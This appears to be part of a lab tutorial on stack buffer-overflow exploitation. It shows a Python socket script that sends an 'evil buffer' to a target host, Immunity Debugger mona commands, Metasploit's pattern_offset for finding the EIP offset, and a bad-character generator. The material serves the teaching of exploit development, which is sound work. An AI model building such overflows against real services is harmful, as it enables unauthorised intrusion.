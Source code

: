 ```
#    PUT || HERE 
#        \/
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  
```
The above program should crash the program. note the `EIP` value from the crashed window.
To find the offset we can use two method :

Method 1 : just run the command from the command bar of immunity debugger. (replace the distance value with the length value)
```
!mona findmsp -distance 2500
```
Method 2: run the following command in kali terminal with the `EIP` address value after the `-q` switch
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 35714234

```

### Finding the bad characters

creating the badchars in immunity debugger

```
!mona bytearray -b "\x00"
```

Generate the bad characters 
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()

```

Copy the badchars generated above and put into the `payload` variable of the above `exploit.py` program and also update the `offset` with the offset found above

Now after starting the server and debugger just run the `exploit.py` from the local kali machine.

